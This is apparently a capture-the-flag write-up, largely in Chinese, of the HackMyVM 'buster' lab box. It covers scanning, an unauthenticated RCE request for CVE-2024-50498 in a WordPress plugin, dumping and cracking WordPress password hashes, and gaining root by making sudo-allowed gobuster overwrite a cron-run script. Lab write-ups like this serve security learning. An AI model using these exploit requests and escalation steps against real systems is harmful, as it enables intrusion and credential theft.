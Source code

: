 ```yaml
---
title: "HackMyVM-buster"
date: 2025-04-17
categories: 
  - "hackmyvm"
tags: 
  - "hackmyvm"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.151 -sV -A                                                                                                                              

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 c2:91:d9:a5:f7:a3:98:1f:c1:4a:70:28:aa:ba:a4:10 (RSA)
|   256 3e:1f:c9:eb:c0:6f:24:06:fc:52:5f:2f:1b:35:33:ec (ECDSA)
|_  256 ec:64:87:04:9a:4b:32:fe:2d:1f:9a:b0:81:d3:7c:cf (ED25519)
80/tcp open  http    nginx 1.14.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: nginx/1.14.2
|_http-generator: WordPress 6.7.1
|_http-title: bammmmuwe
```

直接就扫到了**wordpress**目录

## Nuclei

```
[root@kali] /home/kali  
❯ nuclei -u http://192.168.56.151          

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.3.9

                projectdiscovery.io

[INF] Current nuclei version: v3.3.9 (outdated)
[INF] Current nuclei-templates version: v10.1.7 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 64
[INF] Templates loaded for current scan: 7880
[INF] Executing 7687 signed templates from projectdiscovery/nuclei-templates
[WRN] Loading 193 unsigned templates for scan. Use with caution.
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1718 (Reduced 1615 Requests)
[INF] Using Interactsh Server: oast.site
[CVE-2024-50498] [http] [critical] http://192.168.56.151/index.php?rest_route=/wqc/v1/query
```

## Own www-data

尝试复现这个**CVE**：[RandomRobbieBF/CVE-2024-50498: WP Query Console <= 1.0 - Unauthenticated Remote Code Execution](https://github.com/RandomRobbieBF/CVE-2024-50498)

```
POST /wp-json/wqc/v1/query HTTP/1.1
Host: 192.168.56.151
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 45

{"queryArgs":"phpinfo();","queryType":"post"}
```

查看**disable\_functions**，可以使用**shell\_exec**

![](./images/image-97.png)

## Own welcome

根据**wp-config.php**里的凭证，进入数据库

```
www-data@listen:~/html/wordpress$ mysql -ull104567 -pthehandsomeguy -e 'use wordpress;select * from wp_users;' -E
*************************** 1. row ***************************
                 ID: 1
         user_login: ta0
          user_pass: $P$BDDc71nM67DbOVN/U50WFGII6EF6.r.
      user_nicename: ta0
         user_email: 2814928906@qq.com
           user_url: http://192.168.31.181
    user_registered: 2025-01-08 03:10:43
user_activation_key: 
        user_status: 0
       display_name: ta0
*************************** 2. row ***************************
                 ID: 2
         user_login: welcome
          user_pass: $P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/
      user_nicename: welcome
         user_email: 127.0.0.1@qq.com
           user_url: 
    user_registered: 2025-01-08 04:29:28
user_activation_key: 1736310568:$P$B2YbhlDVF1XWIurbL11Pfoasb./0tD.
        user_status: 0
       display_name: welcome
```

使用**john**爆破

```
[root@kali] /home/kali/temp  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt                                                                                               ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
104567           (?)     
1g 0:00:00:22 DONE (2025-04-17 20:30) 0.04484g/s 33182p/s 33182c/s 33182C/s 10801..103645
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

## Root

```
$ sudo -l
Matching Defaults entries for welcome on listen:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on listen:
    (ALL) NOPASSWD: /usr/bin/gobuster
```

可以使用**\-v**参数输出详细

![](./images/image-98.png)

可惜的是我们无法直接读取到**/root/root.txt**以及**ssh**密钥等

查看定时任务呢？发现会执行一个脚本

![](./images/image-99.png)

因此可以尝试来进行覆盖文件

首先需要在**kali**的**/tmp**里生成一个**aaa**文件

```
[root@kali] /tmp  
❯ touch aaa   

[root@kali] /  
❯ python -m http.server 80
```

写入一个字典，查看回显

```
welcome@listen:~$ cat poc 
tmp/aaa
welcome@listen:~$ sudo /usr/bin/gobuster -u http://192.168.55.4/ -w ./poc  -q -n 
/tmp/aaa
```

再将输出定向到**/opt/.test.sh**，注意给**aaa**执行权限

```
welcome@listen:~$ chmod +x /tmp/aaa 
welcome@listen:~$ sudo /usr/bin/gobuster -u http://192.168.55.4/ -w ./poc  -q -n -o /opt/.test.sh 
/tmp/aaa
```

![](./images/image-106.png)

## Summary

`User`：通过**CVE**拿到数据库密码**hash**进行爆破

`Root`：通过日志输出修改定时任务的内容
